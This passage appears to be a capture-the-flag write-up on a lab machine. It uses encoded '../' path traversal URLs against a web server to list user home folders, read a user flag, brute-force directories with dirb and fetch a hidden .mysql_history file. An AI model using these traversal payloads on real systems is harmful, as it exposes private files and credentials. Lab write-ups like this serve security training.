




5. Enumerate users folders
a) User “sunrise”.
http://192.168.12.31:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fsunrise%2f
Output:

Let see the “user.txt” file contents.
http://192.168.12.31:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fsunrise%2fuser.txt
Output:
a6050aecf6303b0b824038807d823a89
This seems like a simple user flag.
b) User “weborf”
http://192.168.12.31:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f
Output:

Now instead of heading inside directly, we decided to make an automated approach. It’s time for a Directory Bruteforce. We will use the “dirb” tool for this purpose.
$ dirb http
://
192.168.12.31
:
8080
/
..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f
Output:

There's a hidden file named “.mysql history” that can contain some useful information.
Let’s try to get in.
http://192.168.12.31:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fweborf%2f/.mysql_history
Output:

Index